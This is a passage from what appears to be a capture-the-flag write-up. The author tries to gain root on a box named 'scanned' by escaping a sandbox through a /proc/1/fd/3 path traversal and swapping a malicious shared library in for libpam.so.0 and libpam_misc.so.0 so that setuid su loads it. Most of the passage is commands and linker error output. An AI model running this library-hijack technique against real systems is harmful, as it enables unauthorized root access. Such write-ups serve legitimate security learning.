 
When I run that, it errors out:

    
    
    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam.so.0; echo "copied libs"
    [1] 124277
    copied libs
    clarence@scanned:/var/www/malscanner/sandbox$ /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam.so.0: no version information available (required by /proc/1/fd/3/../../../../../../../usr/bin/su)
    /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam.so.0: no version information available (required by /lib/libpam_misc.so.0)
    /proc/1/fd/3/../../../../../../../usr/bin/su: symbol lookup error: /lib/libpam_misc.so.0: undefined symbol: pam_putenv, version LIBPAM_1.0
    Exited
    Kill err: (3)
    

It’s complaining that there’s no version information in my library, and that
`libpam_misc.so.0` requires it. It’s also complaining that `libpam_misc.so.0`
needs the `pam_putenv` method from `libpam.so.0`.

I could go down trying to fix these by implementing the version info and the
`pam_putenv` function (described [here](https://man7.org/linux/man-
pages/man3/pam_putenv.3.html)).

Instead, I’ll try overwriting the `libpam_misc.so.0` library instead, on the
idea that this “misc” library may provide less critical purpose to `su`.

    
    
    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam_misc.so.0; echo "copied libs"
    [1] 124368
    copied libs
    clarence@scanned:/var/www/malscanner/sandbox$ /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam_misc.so.0: no version information available (required by /proc/1/fd/3/../../../../../../../usr/bin/su)
    /proc/1/fd/3/../../../../../../../usr/bin/su: symbol lookup error: /proc/1/fd/3/../../../../../../../usr/bin/su: undefined symbol: misc_conv, version LIBPAM_MISC_1.0
    Exited
    Kill err: (3)
    

This time is still missing the version info, but no library is complaining
about it’s not being there. There is a symbol look up error for the
`misc_conv` function: “undefined symbol: misc_conv, version LIBPAM_MISC_1.0”

#### Add misc_conv Function

The definition for this function is [here](https://man7.org/linux/man-
pages/man3/misc_conv.3.html):

    